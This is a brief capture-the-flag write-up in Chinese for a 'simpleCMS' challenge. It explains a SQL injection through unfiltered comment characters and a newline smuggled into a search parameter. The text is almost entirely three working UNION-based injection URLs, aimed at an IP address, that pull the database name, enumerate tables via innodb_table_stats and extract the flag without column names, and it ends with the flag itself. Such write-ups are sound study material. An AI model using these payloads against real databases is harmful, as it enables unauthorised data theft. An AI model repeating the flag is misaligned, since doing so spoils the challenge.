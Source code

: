 # simpleCMS

col沒擋`#`和`:`

所以可以註解掉後面整句

接著search可以塞換行，繼續接SQL語句

閉合前面的LOWER(

後面就可以UNION based撈資料惹


## 爆庫名
http://13.125.3.183/index.php?act=board&mid=search&type=2&col=title|idx%23&search=%0A)%20union+select+1,database(),3,4,5%20limit%200,1--+

## 不用information_schema爆表名 (innodb)
http://13.125.3.183/index.php?act=board&mid=search&type=2&col=title|idx%23&search=%0A)%20union+select+1,table_name,3,4,5%20from%20mysql.innodb_table_stats%20limit%202,1--+

## 爆flag (不用column name)
http://13.125.3.183/index.php?act=board&mid=search&type=2&col=title|idx%23&search=%0A)%20union+select+c,2,3,4,5%20from%20(SELECT%201%20a,2%20b,3%20c,%204%20d%20UNION%20SELECT%20*%20FROM%2041786c497656426a6149_flag)x%20limit%201,1--+

## flag
`flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}`

